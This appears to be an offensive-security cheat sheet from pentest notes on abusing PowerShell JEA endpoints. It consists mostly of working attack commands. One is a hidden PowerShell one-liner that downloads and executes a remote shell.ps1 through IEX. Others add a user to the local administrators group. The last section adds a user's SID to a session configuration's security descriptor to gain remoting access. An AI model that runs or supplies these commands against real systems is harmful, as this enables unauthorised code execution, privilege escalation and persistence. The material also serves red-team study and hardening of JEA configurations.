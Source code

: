 #### Abuse - Creating functions
- If JEA enpoint is running in Constrained Language Mode instead of NoLanguage it is possible to create your own functions!
- Creates a function with the name `gl` and executes it.
- Shortcut would be `${ <COMMAND>}`
```
function gl {Get-Location}; gl

function gl {whoami}; gl

function gl {powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://<IP>/shell.ps1'))"}; gl
```

#### Abuse - Grant a user to admin
```
Add-ADGroupMember, Add-LocalGroupMember, net.exe, dsadd.exe
```

#### Abuse - Running arbritary code
```
Start-Process, New-Service, Invoke-Item, Invoke-WmiMethod, Invoke-Command,
New-ScheduledTask, Register-ScheduledJob

Invoke-Command -ScriptBlock {net localgroup administrators <USER> /add}
```

### Abuse - Set-PSSessionConfiguration
- From https://github.com/samratashok/RACE/blob/master/RACE.ps1
- After finding a profile to edit, can also edit `microsoft.powershell` which is the normal remoting endpoint!

#### Connect and check the config
```
$sess = New-PSSession -ComputerName <FQDN> -Credential $creds -ConfigurationName <ENDPOINT>
Enter-PSSession $sess
Get-PSSessionConfiguration
```

#### Get original SDDL
```
$existingSDDL = (Get-PSSessionConfiguration -Name "<PROFILE>" -Verbose:$false).SecurityDescriptorSDDL
```

#### Get SID  for new user to add
```
$SID = (Get-DomainUser <USER>).Objectsid
```

#### Create new SDDL with a new USER SID
```
$isContainer = $false  
$isDS = $false  
$SecurityDescriptor = New-Object -TypeName Security.AccessControl.CommonSecurityDescriptor -ArgumentList $isContainer,$isDS, $existingSDDL
$accessType = "Allow"  
$accessMask = 268435456  
$inheritanceFlags = "none"  
$propagationFlags = "none"  
$SecurityDescriptor.DiscretionaryAcl.AddAccess($accessType,$SID,$accessMask,$inheritanceFlags,$propagationFlags) | Out-Null
$newSDDL = $SecurityDescriptor.GetSddlForm("All")
$newSDDL
```
